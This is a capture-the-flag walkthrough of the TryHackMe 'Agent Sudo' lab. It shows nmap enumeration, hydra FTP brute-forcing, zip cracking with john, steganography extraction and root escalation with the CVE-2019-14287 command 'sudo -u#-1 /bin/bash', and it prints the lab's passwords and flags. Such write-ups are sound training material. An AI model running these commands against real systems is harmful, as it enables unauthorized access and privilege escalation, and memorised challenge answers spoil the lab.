

#### *How many open ports?*
Ran a basic nmap scan:
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo]
└─$ cat nmap.txt
# Nmap 7.94 scan initiated Sun Jan 14 12:39:40 2024 as: nmap -A -sV -p- -v -oN nmap.txt 10.10.31.95
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ef:1f:5d:04:d4:77:95:06:60:72:ec:f0:58:f2:cc:07 (RSA)
|   256 5e:02:d1:9a:c4:e7:43:06:62:c1:9e:25:84:8a:e7:ea (ECDSA)
|_  256 2d:00:5c:b9:fd:a8:c8:d8:80:e3:92:4f:8b:4f:18:e2 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Annoucement
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.34 seconds

```
##### *Answer : 3*
#### *How you redirect yourself to a secret page?*
Opening the website in the browser, we see the following : 
```html
<!DocType html>
<html>
<head>
	<title>Annoucement</title>
</head>

<body>
<p>
	Dear agents,
	<br><br>
	Use your own <b>codename</b> as user-agent to access the site.
	<br><br>
	From,<br>
	Agent R
</p>
</body>
</html>
```
Since it tells us that the way to access the site is to replace the user-agent with our codename, we know that the way to access the secret page is through the user-agent.
##### *Answer : user-agent*
#### *What is the agent name?*
When talking about user-agents, I instantly thought of Burp Suite, even though the hint mentioned to use a user agent switcher. I decided to try accessing through Burp Suite first. 
Refreshing the page while `Intercept` was on, I was able to send the request to `Repeater` and modify the user-agent to `R` to see what response I would get. 
```burp
HTTP/1.1 200 OK
Date: Sun, 14 Jan 2024 05:03:11 GMT
Server: Apache/2.4.29 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 310
Connection: close
Content-Type: text/html; charset=UTF-8

What are you doing! Are you one of the 25 employees? If not, I going to report this incident
```
The response mentioned that there are 25 employees, excluding R, which make it 26 total agents. With Agent R having one letter in the alphabet as his codename, I made and educated guess that the codename corresponds with the a letter in the alphabet. I decided to test this theory using `Intruder` , where I created a payload with the letters in the alphabet to see if there are any matches:
```burp suite response
GET / HTTP/1.1
Host: 10.10.31.95
User-Agent: §R§
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
```
Looking through the responses, I see the following under C : 
```burp
HTTP/1.1 302 Found
Date: Sun, 14 Jan 2024 05:10:23 GMT
Server: Apache/2.4.29 (Ubuntu)
Location: agent_C_attention.php
Content-Length: 218
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
```
There seems to be a `php` file located in the website addressed to C, which is the name of the agent.
I decided to access the file through the following url: 
```url 
http://10.10.31.95/agent_C_attention.php
```
I got back this page: 
```firefox
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

From,
Agent R 
```
Agent C's name is Chris!
##### *Answer : Chris*

#### *FTP password?*
From the `nmap` scan, we see that `ftp` service has open port. This version of `ftp` does not allow anonymous login, so we have to brute force our way into getting the credentials. 
Let's first access the `ftp` server to see the banner we get: 
```console
┌──(roshan㉿redhood)-[~]
└─$ ftp 10.10.31.95      
Connected to 10.10.31.95.
220 (vsFTPd 3.0.3)
Name (10.10.31.95:roshan):
```
Let's use `hydra` to crack the password: 
```console
hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.31.95:21
```
We get the password as follows: 
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo]
└─$ hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.31.95
#redacted
[21][ftp] host: 10.10.31.95   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-14 13:26:13
```
##### *Answer : crystal*

#### *Zip file password?*
Let's log into the FTP server to see if there is anything we can retrieve back to our machine
```console
┌──(roshan㉿redhood)-[~]
└─$ ftp 10.10.31.95
Connected to 10.10.31.95.
220 (vsFTPd 3.0.3)
Name (10.10.31.95:roshan): chris
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> binary
200 Switching to Binary mode.
ftp> dir
229 Entering Extended Passive Mode (|||36159|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.
ftp> 

```

I used the `get` command to retrieve each of the files back to my machine and exited the server. 
Accessing the text file, we get the following: 
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo]
└─$ cat To_agentJ.txt
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C

```

I used binwalk to extract the PNG image first. 
```console
binwalk -e cutie.png
```
The following files we found: 
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo/_cutie.png.extracted]
└─$ ls 
365  365.zlib  8702.zip  To_agentR.txt

```
I tried using `unzip` to unzip command, but was met with this error: 
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo/_cutie.png.extracted]
└─$ unzip 8702.zip
Archive:  8702.zip
   skipping: To_agentR.txt           need PK compat. v5.1 (can do v4.6)

```
A quick paste into ChatGPT tells me that I should use the `7z` command, as `unzip` is not compatible with the file
```console
└─$ 7z x 8702.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_SG.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs LE)

Scanning the drive for archives:
1 file, 280 bytes (1 KiB)

Extracting archive: 8702.zip
--
Path = 8702.zip
Type = zip
Physical Size = 280


Would you like to replace the existing file:
  Path:     ./To_agentR.txt
  Size:     0 bytes
  Modified: 2019-10-29 20:29:11
with the file from archive:
  Path:     To_agentR.txt
  Size:     86 bytes (1 KiB)
  Modified: 2019-10-29 20:29:11
? (Y)es / (N)o / (A)lways / (S)kip all / A(u)to rename all / (Q)uit? Y


Enter password (will not be echoed):
```
It prompts for a password, so let's use `JohnTheRipper` to crack the file
- first let's convert it to a file readable by `JtR`
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo/_cutie.png.extracted]
└─$ zip2john 8702.zip > 8702.hash
Created directory: /home/roshan/.john
```
- Next, let's crack the file
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo/_cutie.png.extracted]
└─$ john 8702.hash       
Using default input encoding: UTF-8
Loaded 1 password hash (ZIP, WinZip [PBKDF2-SHA1 128/128 ASIMD 4x])
Cost 1 (HMAC size) is 78 for all loaded hashes
Will run 2 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
alien            (8702.zip/To_agentR.txt)     
1g 0:00:00:02 DONE 2/3 (2024-01-14 14:51) 0.4000g/s 17873p/s 17873c/s 17873C/s 123456..Peter
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
##### *Answer : alien*

#### Steg Password?
Let's open the zip file with the password obtained and check the `.txt` file again:
```console
Enter password (will not be echoed):
Everything is Ok    

Size:       86
Compressed: 280
                                                                                
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo/_cutie.png.extracted]
└─$ ls 
365  365.zlib  8702.hash  8702.zip  To_agentR.txt
                                                                                
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo/_cutie.png.extracted]
└─$ cat To_agentR.txt      
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R

```
`'QXJlYTUx'` could be the password to the `.jpg` file, so let's try that.
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo]
└─$ steghide extract -sf cute-alien.jpg
Enter passphrase: 
steghide: could not extract any data with that passphrase!

```
Looking at the password, again, it dawned onto me that the password may not be in plaintext. I used the `magic` tool in CyberChef to see if i could decode the password:

Nice!
##### *Answer : Area51*

#### *SSH Password?*
Let's open the `.jpg` file to see the contents using the password we obtained.
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo]
└─$ steghide extract -sf cute-alien.jpg
Enter passphrase: 
wrote extracted data to "message.txt".
```
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo]
└─$ cat message.txt  
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris

```
##### *Answer : hackerrules!*
#### *What is the incident of the photo called?*
Let's try and login to the account via SSH, since port 22 is open.
```console
ssh james@10.10.31.95
```
```console
Last login: Tue Oct 29 14:26:27 2019
james@agent-sudo:~$ ls 
Alien_autospy.jpg  user_flag.txt
james@agent-sudo:~$ 
```
Let's try and copy the files listed into our local machine : 
```console
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo]
└─$ scp james@10.10.31.95:/home/james/Alien_autospy.jpg -J /home/roshan/Downloads/THM/agent_sudo
james@10.10.31.95's password: 
Permission denied, please try again.
james@10.10.31.95's password: 
Alien_autospy.jpg                             100%   41KB  46.3KB/s   00:00  
┌──(roshan㉿redhood)-[~/Downloads/THM/agent_sudo]
└─$ scp james@10.10.31.95:/home/james/user_flag.txt -J /home/roshan/Downloads/THM/agent_sudo
james@10.10.31.95's password: 
Permission denied, please try again.
james@10.10.31.95's password: 
user_flag.txt                                 100%   33     0.1KB/s   00:00  
```
The hint for this indicated to do a reverse image search on Google and find the Fox News article, so I clicked on the camera lens icon and dropped in the `.jpg` file. 
I took a good look at the search results, and saw that the term *Roswell* kept popping up. 
I keyed in *Roswell alien autopsy Fox News* into the search engine and clicked on the first article. 
##### Answer : *Roswell Alien Autopsy*

#### *CVE For Escalation?*
I did some basic enumeration on the victim machine to assess my vectors before trying to escalate privileges:
```console
james@agent-sudo:~$ id james
uid=1000(james) gid=1000(james) groups=1000(james),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
james@agent-sudo:~$ sudo -l
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
james@agent-sudo:~$ uname -a
Linux agent-sudo 4.15.0-55-generic #60-Ubuntu SMP Tue Jul 2 18:22:20 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```

It says that the user may run all the commands that a root user can , which is pretty weird to me. I search `(ALL !root) /bin/bash` exploit and got the first result as a exploit on exploit DB. 

##### *Answer: CVE-2019-14287*
This is what the exploit says: 
```exploit db 

'''Check for the user sudo permissions

sudo -l 

User hacker may run the following commands on kali:
    (ALL, !root) /bin/bash


So user hacker can't run /bin/bash as root (!root)


User hacker sudo privilege in /etc/sudoers

# User privilege specification
root    ALL=(ALL:ALL) ALL

hacker ALL=(ALL,!root) /bin/bash


With ALL specified, user hacker can run the binary /bin/bash as any user

EXPLOIT: 

sudo -u#-1 /bin/bash

Example : 

hacker@kali:~$ sudo -u#-1 /bin/bash
root@kali:/home/hacker# id
uid=0(root) gid=1000(hacker) groups=1000(hacker)
root@kali:/home/hacker#

Description :
Sudo doesn't check for the existence of the specified user id and executes the with arbitrary user id with the sudo priv
-u#-1 returns as 0 which is root's id
```

With that I ran the command in the terminal: 
```console
james@agent-sudo:~$ sudo -u#-1 /bin/bash
```
Was able to bypass and escalate to root privileges: 
```console
root@agent-sudo:~# whoami
root
root@agent-sudo:~# 
```
#### *What is the root flag?*
Did some basic navigation:
```console
root@agent-sudo:~# pwd
/home/james
root@agent-sudo:~# cd ..
root@agent-sudo:/home# ls 
james
root@agent-sudo:/home# cd ..
root@agent-sudo:/# ls 
bin    dev   initrd.img      lib64       mnt   root  snap      sys  var
boot   etc   initrd.img.old  lost+found  opt   run   srv       tmp  vmlinuz
cdrom  home  lib             media       proc  sbin  swap.img  usr  vmlinuz.old
root@agent-sudo:/# cd root
root@agent-sudo:/root# ls 
root.txt
root@agent-sudo:/root# cat root.txt
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
b53a02f55b57d4439e3341834d70c062

By,
DesKel a.k.a Agent R

```
##### *Answer : b53a02f55b57d4439e3341834d70c062* 
#### Who is Agent R?
##### *DesKel*